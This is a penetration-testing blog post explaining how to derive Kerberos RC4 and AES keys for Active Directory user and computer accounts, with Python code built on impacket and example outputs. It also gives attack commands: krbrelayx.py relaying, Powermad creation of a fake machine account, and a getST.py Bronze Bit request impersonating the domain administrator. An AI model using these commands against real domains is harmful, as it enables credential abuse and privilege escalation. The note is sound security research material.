 ```yaml
---
layout: post
title: "A Note on Calculating Kerberos Keys for AD Accounts"
date: 2021-05-21 23:00:00 +0300
author: snovvcrash
tags: [internal-pentest, active-directory, kerberos, krbrelayx, python, impacket, bronze-bit]
---
```


A short memo on how to properly calculate Kerberos keys for different types of Active Directory accounts in context of decrypting TGS tickets during delegation attacks.

<!--cut-->

![banner.png](/assets/images/calculating-kerberos-keys/banner.png)
{:.center-image}

In order to successfully decrypt service TGS we must calculate its Kerberos key first. To do this we should obtain account's password and form the salt:

* For a user/service account the salt is built as uppercase Kerberos realm name + case sensitive username.
* For a computer account the salt is built as uppercase Kerberos realm name + the word `host` + lowercase FQDN hostname.

Let's say the domain name (Kerberos realm) is `megacorp.local`, then for user `Bob_Adm` the salt will be `MEGACORP.LOCALBob_Adm`, and for computer `SRV01$` the salt will be `MEGACORP.LOCALhostsrv01.megacorp.local`.

Based on the "Relaying" Kerberos attack [toolkit](https://github.com/dirkjanm/krbrelayx) (by [@dirkjanm](https://twitter.com/_dirkjan)) the keys can be calculated with the following Python code using [impacket](https://github.com/SecureAuthCorp/impacket):

```python
#!/usr/bin/env python3

from binascii import unhexlify, hexlify

from impacket.krb5 import constants
from impacket.krb5.crypto import Key, string_to_key
from Cryptodome.Hash import MD4

allciphers = {
	'rc4_hmac_nt': int(constants.EncryptionTypes.rc4_hmac.value),
	'aes128_hmac': int(constants.EncryptionTypes.aes128_cts_hmac_sha1_96.value),
	'aes256_hmac': int(constants.EncryptionTypes.aes256_cts_hmac_sha1_96.value)
}


def printKerberosKeys(password, salt):
	for name, cipher in allciphers.items():
		if cipher == 23:
			md4 = MD4.new()
			md4.update(password)
			key = Key(cipher, md4.digest())
		else:
			fixedPassword = password.decode('utf-16-le', 'replace').encode('utf-8', 'replace')
			key = string_to_key(cipher, fixedPassword, salt)

		print(f'    * {name}: {hexlify(key.contents).decode("utf-8")}')


def printMachineKerberosKeys(domain, hostname, hexpassword):
	salt = b'%shost%s.%s' % (domain.upper().encode('utf-8'), hostname.lower().encode('utf-8'), domain.lower().encode('utf-8'))
	rawpassword = unhexlify(hexpassword)
	print(f'{domain.upper()}\\{hostname.upper()}$')
	print(f'    * Salt: {salt.decode("utf-8")}')
	printKerberosKeys(rawpassword, salt)


def printUserKerberosKeys(domain, username, rawpassword):
	salt = b'%s%s' % (domain.upper().encode('utf-8'), username.encode('utf-8'))
	rawpassword = rawpassword.encode('utf-16-le')
	print(f'{domain.upper()}\\{username}')
	print(f'    * Salt: {salt.decode("utf-8")}')
	printKerberosKeys(rawpassword, salt)
```

When performing the ["Relaying" Kerberos attack](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/) against an unconstrained delegation **computer** account, the adversary will use krbrelayx.py as follows:

```console
# Calculate the AES key automatically
~$ krbrelayx.py --krbsalt MEGACORP.LOCALhostsrv01.megacorp.local --krbhexpass 16ef05840eedc3af56b2cd75bba16ace855271729f0265d6638bc0a5097b095e8abd316f9f89da445fa16907f04cde46d847291060185437a67d10547cdebbea138846fe019a63c3e91cf1ed416f5b6f05cdcc03b772c5d68a6d71c05130c7e3df1c4760fe72b82fb3441a1ca43d5873028b3bb671a51f4ceada3bf063c8742bd24587c66c1ad3e0a1e34b566b0917209d54345bc0ccdb81a0cfecedad38fc2fb98990f3b45f70dd18e64928fbb9c41c5f284b5748669cf3369146626cf0aafaf43f24d0ac927ff499e0f5dc06c1be1d4d8ff5006c581b0d2e0b188156c680fec864d5215b2d17864096b4d0a59e705d
# Pre-calculate the AES key and pass it as an argument
~$ krbrelayx.py -aesKey 4e70fdfa30728cb202aa6b169627078546a3a30ddf0e655f493ae372dd30fa57
```

```python
printMachineKerberosKeys(
	domain='megacorp.local',
	hostname='SRV01',
	hexpassword='16ef05840eedc3af56b2cd75bba16ace855271729f0265d6638bc0a5097b095e8abd316f9f89da445fa16907f04cde46d847291060185437a67d10547cdebbea138846fe019a63c3e91cf1ed416f5b6f05cdcc03b772c5d68a6d71c05130c7e3df1c4760fe72b82fb3441a1ca43d5873028b3bb671a51f4ceada3bf063c8742bd24587c66c1ad3e0a1e34b566b0917209d54345bc0ccdb81a0cfecedad38fc2fb98990f3b45f70dd18e64928fbb9c41c5f284b5748669cf3369146626cf0aafaf43f24d0ac927ff499e0f5dc06c1be1d4d8ff5006c581b0d2e0b188156c680fec864d5215b2d17864096b4d0a59e705d'
)

"""
MEGACORP.LOCAL\SRV01$
    * Salt: MEGACORP.LOCALhostsrv01.megacorp.local
    * rc4_hmac_nt: 1b8112a5c2eb2c45ba045efdca7c4848
    * aes128_hmac: 7c91cca5c6a7c1f961d977a7f3332273
    * aes256_hmac: 4e70fdfa30728cb202aa6b169627078546a3a30ddf0e655f493ae372dd30fa57
"""
```

When performing this attack against an unconstrained delegation **user** account, the adversary does not need to calculate the salt because the ticket it encrypted with RC4 by default (not salted NT hash used as key):

```console
~$ krbrelayx.py -hashes :fc525c9683e8fe067095ba2ddc971889
```

```python
printUserKerberosKeys(
	domain='megacorp.local',
	username='Bob_Adm',
	rawpassword='Passw0rd!'
)

"""
MEGACORP.LOCAL\Bob_Adm
    * Salt: MEGACORP.LOCALBob_Adm
    * rc4_hmac_nt: fc525c9683e8fe067095ba2ddc971889
    * aes128_hmac: 79505a4518150188087e722dec3b2567
    * aes256_hmac: b628f4549bd8c9e18b9573075a2db50a08aff7982be3185923af87ec2bffddc5
"""
```

On the other hand, when performing the [Bronze Bit attack](https://www.netspi.com/blog/technical/network-penetration-testing/machineaccountquota-is-useful-sometimes/) (by [@jakekarnes42](https://github.com/jakekarnes42)), the adversary leverages a fake service (see [Powermad.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)) account to request the ticket which brings back AES encryption with salt (PBKDF2 from salted password used as key). Despite the fact that Powermad's function for adding fake accounts is called `New-MachineAccount`, it's actually a **service** account and the Kerberos keys should be calculated with `printUserKerberosKeys` function in terms of this note:

```console
PS > New-MachineAccount -MachineAccount fakemachine -Password $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) -Verbose
~$ getST.py -spn ldap/DC01.megacorp.local -impersonate 'administrator' megacorp.local/fakemachine -hashes :fc525c9683e8fe067095ba2ddc971889 -aesKey de933a0f9cabde83ba6ab195af8ecb8af982b50992606caab74568cf47ca4cd3 -force-forwardable
```

```python
printUserKerberosKeys(
	domain='megacorp.local',
	username='fakemachine',
	rawpassword='Passw0rd!'
)

"""
MEGACORP.LOCAL\fakemachine
    * Salt: MEGACORP.LOCALfakemachine
    * rc4_hmac_nt: fc525c9683e8fe067095ba2ddc971889
    * aes128_hmac: 3a2a5d368927e4ac0948c76b2e5e998b
    * aes256_hmac: de933a0f9cabde83ba6ab195af8ecb8af982b50992606caab74568cf47ca4cd3
"""
```

The same calculation can be done with [Get-KerberosAESKey.ps1](https://gist.github.com/Kevin-Robertson/9e0f8bfdbf4c1e694e6ff4197f0a4372), [DSInternals](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/ConvertTo-KerberosKey.md#convertto-kerberoskey) or [Mimikatz](https://github.com/gentilkiwi/mimikatz) `kerberos::hash` function.
